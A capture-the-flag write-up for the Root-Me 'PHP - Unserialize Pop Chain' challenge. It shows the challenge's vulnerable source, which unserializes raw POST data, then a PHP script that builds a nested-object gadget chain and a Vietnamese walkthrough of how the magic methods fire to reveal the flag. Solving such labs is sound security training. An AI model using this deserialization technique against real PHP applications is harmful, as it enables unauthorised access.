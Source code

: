 #[PHP - Unserialize Pop Chain](https://www.root-me.org/en/Challenges/Web-Server/PHP-Unserialize-Pop-Chain)
```php
    <?php
     
    $getflag = false;
     
    class GetMessage {
        function __construct($receive) {
            if ($receive === "HelloBooooooy") {
                die("[FRIEND]: Ahahah you get fooled by my security my friend!<br>");
            } else {
                $this->receive = $receive;
            }
        }
     
        function __toString() {
            return $this->receive;
        }
     
        function __destruct() {
            global $getflag;
            if ($this->receive !== "HelloBooooooy") {
                die("[FRIEND]: Hm.. you don't seem to be the friend I was waiting for..<br>");
            } else {
                if ($getflag) {
                    include("flag.php");
                    echo "[FRIEND]: Oh ! Hi! Let me show you my secret: ".$FLAG . "<br>";
                }
            }
        }
    }
     
    class WakyWaky {
        function __wakeup() {
            echo "[YOU]: ".$this->msg."<br>";
        }
     
        function __toString() {
            global $getflag;
            $getflag = true;
            return (new GetMessage($this->msg))->receive;
        }
    }
     
    if (isset($_GET['source'])) {
        highlight_file(__FILE__);
        die();
    }
     
    if (isset($_POST["data"]) && !empty($_POST["data"])) {
        unserialize($_POST["data"]);
    }
     
    ?>
     
    <!DOCTYPE html>
    <html lang="en" dir="ltr">
      <head>
        <meta charset="UTF-8">
        <title>PHP - Unserialize Pop Chain</title>
      </head>
      <body>
        <h1>PHP - Unserialize Pop Chain</h1>
        <hr>
        <br>
        <p>
          Can you bypass the security your friend put in place to access the flag?
        </p>
        <br>
        <form class="" action="index.php" method="post">
          <textarea name="data" rows="5" cols="33" style="width:35%"></textarea>
          <br>
          <br>
          <button type="submit" name="button" style="width:35%">Submit</button>
        </form>
        <br>
        <p>
          You can also <a href="?source">View the source</a>
        </p>
      </body>
    </html>
```
Payload
```php
<?php

class GetMessage {
    public $receive;
}

class WakyWaky {
    public $msg;
}

// Bước 1: Tạo đối tượng GetMessage để kích hoạt __destruct() sau này
$a = new GetMessage();
$a->receive = "HelloBooooooy";

// Bước 2: Tạo đối tượng WakyWaky và đặt thuộc tính $msg là đối tượng GetMessage
$c = new WakyWaky();
$c->msg = $a;

// Bước 3: Tạo đối tượng WakyWaky chứa đối tượng WakyWaky khác
$d = new WakyWaky();
$d->msg = $c;

// Bước 4: Tuần tự hóa đối tượng ngoài cùng
$payload = serialize($d);

// In ra payload cuối cùng để sử dụng
echo $payload;
```
Giải thích chuỗi tấn công (Pop Chain)
Khi payload được gửi đi và unserialize() được gọi, chuỗi sự kiện sẽ diễn ra theo đúng thứ tự bạn mong muốn:

PHP giải chuỗi payload, tạo ra đối tượng $d (là một đối tượng WakyWaky).

Hàm __wakeup() của đối tượng $d được kích hoạt.

Lệnh echo "[YOU]: ".$this->msg."<br>"; được thực thi.

PHP cố gắng nối chuỗi "[YOU]: " với $d->msg.

Vì $d->msg là một đối tượng WakyWaky khác, PHP sẽ tìm cách chuyển đổi nó thành chuỗi, và điều này sẽ kích hoạt hàm __toString() của đối tượng $d->msg (tức là đối tượng $c).

Khi __toString() của $c được gọi, biến toàn cục $getflag sẽ được đặt thành true.

Hàm __toString() sau đó sẽ trả về (new GetMessage($this->msg))->receive.

Khi chương trình kết thúc, PHP sẽ gọi hàm hủy __destruct() của đối tượng GetMessage mà chúng ta đã tạo ban đầu.

Lúc này, $this->receive là "HelloBooooooy" và $getflag là true.

Điều kiện if ($this->receive !== "HelloBooooooy") sẽ là false, và if ($getflag) sẽ là true.

Cuối cùng, include("flag.php") được thực thi và bạn lấy được cờ.

